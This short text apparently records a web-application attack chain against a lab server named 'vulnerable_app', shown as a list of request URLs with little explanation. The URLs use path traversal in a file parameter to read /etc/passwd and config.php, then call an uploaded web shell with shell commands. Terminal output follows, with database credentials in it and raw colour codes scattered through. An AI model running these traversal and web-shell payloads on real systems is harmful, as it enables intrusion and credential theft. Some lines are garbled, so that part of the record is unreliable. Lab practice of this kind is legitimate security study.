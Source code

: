 http://192.168.1.88/view.php?file=../../../../etc/passwd

http://192.168.1.88/view.php?file=/etc/passwd

http://192.168.1.88/view.php?file=../config.php

http://192.168.1.88/view.php?file=../uploads/shell.php&cmd=ls%20-la

http://192.168.1.88/view.php?file=../uploads/shell.php&cmd=ls%20-lFa%20..%2F ../

http://192.168.1.88/view.php?file=../uploads/shell.php&cmd=vi%20..%2Fconfig.php vi config.php

[36mdefine[0m[35m([0m[31m'DB_HOST'[0m, [31m'localhost'[0m[35m)[0m; [36mdefine[0m[35m([0m[31m'DB_NAME'[
0m, [31m'vulnerable_app'[0m[35m)[0m; [36mdefine[0m[35m([0m[31m'DB_USER'[0m, [31m'webapp_user'[0m[35m)[0m;
[36mdefine[0m[35m([0m[31m'DB_PASS'[0m, [31m'insecure_password'